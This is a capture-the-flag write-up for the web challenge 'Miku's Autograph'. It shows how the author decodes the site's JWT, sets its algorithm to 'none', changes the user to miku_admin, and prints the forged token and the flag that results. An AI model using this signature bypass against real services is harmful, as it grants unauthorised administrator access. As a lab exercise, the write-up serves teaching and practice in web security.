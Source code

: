 # Miku's Autograph - web

## Challenge

I am so proud of the fact that I have Miku's autograph. Ha! You don't!

## Solve

Capturing the traffic made to the webpage, we can see that when we attempt to log in, our request is denied with the message

```
You are not miku_admin!!!
```

We can also see our request is sent with a `magic_token`:

![miku1](https://github.com/user-attachments/assets/66abe73c-64c9-418d-86ac-149f900c9950)


This is a JSON web token (JWT) which has the following structure:

```
header.payload.signature
```

The header and payload are just base64 encoded which we can see contain:

***Header***

```json
{
  "alg": "HS256",
  "typ": "JWT"
}
```

***Payload***

```json
{
  "sub": "miku_user",
  "exp": 1739771575
}
```

The signature component of the token takes the base64 encoded header and payload, a secret and signs with the algorithm specified in the `alg` header.

It turns out we can bypass this signature by setting the `alg` header to `none` and can modify the payload as we like.

The newly crafted token (unencoded) looks like this:

***Header***

```json
{
  "alg": "none",
  "typ": "JWT"
}
```

***Payload***

```json
{
  "sub": "miku_admin",
  "exp": 1739771575
}
```

We can then base64 encode each section, reassemble the token and send our request to the server. Since the signature won't be verified, we can leave it as is. The updated token looks like this:

```
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0=.eyJzdWIiOiJtaWt1X2FkbWluIiwiZXhwIjoxNzM5NzcxNTc1fQ==.yLyTGi_VSOnqfYLO3o6KHtoCMUKjESlqxj7WAZYiEq8
```

Sending the request we can successfully obtain the flag:

![miku2](https://github.com/user-attachments/assets/2ddd3cff-c6e5-486a-9c0f-0783b590df18)


`bronco{miku_miku_beaaaaaaaaaaaaaaaaaam!}`
